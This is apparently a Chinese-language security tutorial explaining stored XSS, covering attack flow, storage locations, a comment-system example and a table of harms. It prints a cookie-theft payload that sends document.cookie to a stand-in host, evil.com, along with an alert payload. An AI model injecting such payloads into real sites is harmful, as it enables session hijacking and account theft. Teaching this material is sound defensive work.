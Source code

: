 # 存储型XSS

存储型 XSS（Stored XSS），也叫 **持久型 XSS**，是最危险的 XSS 类型之一。它会将恶意脚本**永久存储在目标服务器的数据库或文件中**，任何访问该数据的用户都会被攻击。

---

## 1. 存储型 XSS

存储型 XSS 是指：攻击者提交的恶意脚本被服务器保存（如数据库、日志、评论、文章等），当其他用户访问这些内容时，脚本自动执行，从而造成恶意行为，如：

- 劫持 Cookie 会话
- 冒充用户身份进行操作（CSRF + XSS）
- 页面篡改
- 静默盗号
- 弹窗钓鱼
- 挖矿、键盘监听等

---

## 2. 攻击原理流程

1. **攻击者提交恶意脚本**
    - 例如，在文章评论中注入 `<script>alert(document.cookie)</script>`

2. **服务器保存数据**
    - 服务端将脚本存入数据库，没有进行任何过滤或转义

3. **用户访问页面**
    - 正常用户浏览该页面时，恶意 JS 被浏览器解析执行

4. **攻击生效**
    - 可能弹窗、劫 cookie、自动请求攻击等

---

## 3. 常见的存储位置

| 类型         | 存储点                    |
|--------------|---------------------------|
| 数据库       | 评论、留言、昵称、签名等  |
| 文件         | 日志文件、JSON配置文件    |
| NoSQL/对象存储 | MongoDB、Firebase、S3等  |
| 本地缓存     | Redis、Session、Cookie    |

---

## 4. 示例：评论系统中的存储型 XSS

### 攻击者提交评论：

```html
<script>fetch("http://evil.com/steal?c=" + document.cookie)</script>
```

### 后端保存到数据库：

```sql
INSERT INTO comments (content) VALUES ('<script>fetch(...)</script>');
```

### 页面展示（未转义）：

```html
<div class="comment">
  <script>fetch(...)</script>  ← 浏览器执行
</div>
```

---

## 5. 危害详解

| 危害 | 描述 |
|------|------|
| **劫持用户会话** | 获取 cookie，伪造登录态 |
| **键盘监听** | 记录用户输入（账号、密码） |
| **虚假表单** | 模拟页面钓鱼欺诈 |
| **黑链注入** | 提升黑站权重、挂马 |
| **DDoS跳板** | 加入恶意 JS 请求群体攻击 |
| **CSRF联动攻击** | 脚本内触发后台接口操作 |

---




